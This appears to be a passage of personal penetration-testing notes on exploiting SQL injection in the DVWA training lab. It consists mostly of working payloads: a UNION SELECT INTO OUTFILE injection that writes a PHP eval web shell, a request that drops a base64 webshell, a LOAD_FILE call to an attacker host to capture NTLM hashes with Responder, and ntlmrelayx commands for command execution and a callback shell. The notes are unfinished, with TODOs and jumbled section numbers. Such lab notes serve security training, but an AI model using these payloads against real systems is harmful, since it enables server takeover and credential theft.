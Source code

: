 ```sql
SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'
```

Convert it to SQLi exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'#
```

```
"http://dvwa.local/dvwa/eval_php.php?evaluate=phpinfo()"
```

`<insert screenshots>`

- **Base64 encoded**

```
"http://dvwa.local/dvwa/eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}"
```

##### 2.2.5.1.4 - NTLM Hashes (Out-of-band)

TODO: Check the links in the references to check other ways to exploit UNC paths

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```sql
' UNION SELECT NULL, LOAD_FILE('\\\\<attacker_IP>\\snare.txt')#
```

- Responder

```
$ sudo responder -I <interface> -A
```

- Metasploit Framework

```
smb_relay
```

##### 2.2.5.1.5 - SMB Relay Callback Shell (Out-of-band)

- Execute commands

`$ sudo impacket-ntlmrelayx -t smb://dvwa.local -smb2support -c <commands>`

- Retrieve a callback shell

`$ sudo impacket-ntlmrelayx -t smb://dvwa.local -smb2support -e shell.exe`

#### 2.2.5.2 - Exploit via DUMPFILE

### 2.1.2 - Enumerate Database User Privileges

TODO: Make it better
